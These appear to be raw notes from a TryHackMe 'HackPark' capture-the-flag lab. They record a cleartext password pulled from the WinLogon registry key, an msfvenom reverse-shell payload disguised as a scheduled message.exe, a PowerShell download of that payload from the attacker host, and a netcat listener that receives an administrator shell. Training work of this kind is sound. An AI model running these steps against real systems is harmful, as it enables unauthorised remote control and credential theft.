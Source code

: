 SessionID=1                                                                                                           
ProcessID=1664                                                                                                        
UserID=Administrator   





Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon                                             
    LastUsedUsername    REG_SZ    administrator                                                                       
    DefaultUserName    REG_SZ    administrator                                                                        
    DefaultPassword    REG_SZ    4q6XvFES7Fdxs    

saw some password lurking
kali@kali:~/oscptraining$ xfreerdp /u:administrator /p:4q6XvFES7Fdxs /v:10.10.4.115

7e13d97f05f7ceb9881a3eb3d78d3e72


supposed to exploit message.exe that is running every 60s

msfvenom -p windows/shell_reverse_tcp LHOST=10.8.102.117 LPORT=8888 -f exe > message.exe


powershell Invoke-WebRequest -Uri http://10.8.102.117:80/Message.exe -Outfile 'C:\Program Files (x86)\SystemScheduler\Message.exe'

get it in then wait for it to execute and we get our reverse shell with admin privilege!


_______________________________________________________________________________________________________
kali@kali:~/oscptraining/tryhackme/hackpack$ nc -lvnp 8888
listening on [any] 8888 ...
connect to [10.8.102.117] from (UNKNOWN) [10.10.16.37] 49336
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\PROGRA~2\SYSTEM~1>cd ..
cd ..

C:\PROGRA~2>whoami
whoami
hackpark\administrator

C:\PROGRA~2>


C:\Users\jeff\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552

 Directory of C:\Users\jeff\Desktop

08/04/2019  11:55 AM    <DIR>          .
08/04/2019  11:55 AM    <DIR>          ..
08/04/2019  11:57 AM                32 user.txt
               1 File(s)             32 bytes
               2 Dir(s)  39,119,171,584 bytes free

C:\Users\jeff\Desktop>type user.txt
type user.txt
759bd8af507517bcfaede78a21a73e39
C:\Users\jeff\Desktop>
